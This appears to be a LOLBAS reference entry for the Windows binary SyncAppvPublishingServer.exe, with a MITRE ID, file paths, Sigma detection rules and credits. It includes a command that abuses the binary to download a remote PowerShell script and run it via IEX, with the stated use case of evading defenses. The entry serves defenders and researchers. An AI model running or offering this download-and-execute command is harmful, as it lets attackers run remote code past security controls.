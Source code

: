 ```yaml
---
Name: SyncAppvPublishingServer.exe
Description: Used by App-v to get App-v server lists
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: SyncAppvPublishingServer.exe "n;(New-Object Net.WebClient).DownloadString('{REMOTEURL:.ps1}') | IEX"
    Description: Example command on how inject Powershell code into the process
    Usecase: Use SyncAppvPublishingServer as a Powershell host to execute Powershell code. Evade defensive counter measures
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 10 1709, Windows 10 1703, Windows 10 1607
    Tags:
      - Execute: PowerShell
Full_Path:
  - Path: C:\Windows\System32\SyncAppvPublishingServer.exe
  - Path: C:\Windows\SysWOW64\SyncAppvPublishingServer.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/powershell/powershell_script/posh_ps_syncappvpublishingserver_exe.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/powershell/powershell_module/posh_pm_syncappvpublishingserver_exe.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_lolbin_syncappvpublishingserver_execute_psh.yml
  - IOC: SyncAppvPublishingServer.exe should never be in use unless App-V is deployed
Resources:
  - Link: https://twitter.com/monoxgas/status/895045566090010624
Acknowledgement:
  - Person: Nick Landers
    Handle: '@monoxgas'
---
```

